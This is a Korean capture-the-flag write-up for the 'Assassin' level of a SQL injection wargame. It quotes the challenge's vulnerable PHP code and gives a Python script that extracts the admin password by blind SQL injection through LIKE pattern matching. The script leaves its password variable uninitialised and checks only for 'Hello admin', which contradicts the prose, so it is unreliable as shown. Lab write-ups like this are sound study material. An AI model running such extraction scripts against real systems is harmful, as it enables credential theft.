

# Level 15 - Assassin

## 문제


## 문제 의도

- php 소스를 읽을 줄 아는가?
- Blind-SQLi를 수행할 수 있는가?

## 코드 분석

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~");
  // GET으로 받은 pw 값에 Single Quote가 들어갔을 때 필터링한다.
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'";
  // GET으로 받은 pw 값을 LIKE 문의 인자로 넣는다.
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("assassin");
  highlight_file(__FILE__);
?>
```

## 문제 풀이

LIKE는 WHERE 문에서 특정 패턴에 맞는 레코드를 뽑아내기 위한 연산자이다. 전 단계에서 Blind SQLi를 수행할때 많이 썼었는데 이 문제에선 아예 GET으로 받은 pw를 LIKE 문에 넣어버리므로 pw 값을 바꿔가며 admin의 pw 값을 알아내면 될 것.. 같았지만 예상치 못하게 이상한 곳에서 많이 헷갈린것 같다.

```python
# Based on infreljs's code

import urllib.request

for pw_length in range(1, 9):
    for pw in range(48, 123):
        candidate = password + chr(pw)
        url1 = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php"
        url2 = "?pw=" + candidate + "%"
        res = urllib.request.Request(url1+url2)
        res.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:50.0) Gecko/20100101 Firefox/50.0")
        res.add_header(
            "Cookie", "PHPSESSID=?????????????????????????"
        )
        re = urllib.request.urlopen(res).read()

        if str(re).find("<h2>Hello admin</h2>") != -1:
            password = password + chr(pw)
            print(password)
            break
print("PW = ", password)
```

그동안 LIKE 문으로 Blind-SQLi를 수행하면서 딱히 예외 상황같은게 없어서 뭘 안했는데, 이 문제에서 살짝 막혔다. 그동안 각 문제의 DB에는 사용자가 Guest와 Admin 밖에 없었는데 두 계정의 pw가 같았던 적은 없었던 것 같다. (있었는데 내가 못알아 차린 걸수도...) 그런데 이 문제를 풀고 나니 헤맸던 이유가 바로 Guest와 Admin의 계정 pw가 앞 2자리 정도 겹쳤기 때문이다. 만약 지금까지 써오던 코드를 사용하면 Admin의 pw와 패턴이 맞는데도 `Hello guest`라고 뜨므로 아마 정상적으로 pw를 가져오지 못했을 것이다. 그래서 `<h2>Hello`를 찾아서 guest고 admin이고 다 받았더니 admin의 pw를 추출할 수 있었다.

### 왜그럴까요

... 그건 해결되는대로 다시 올리겠습니당ㅎ

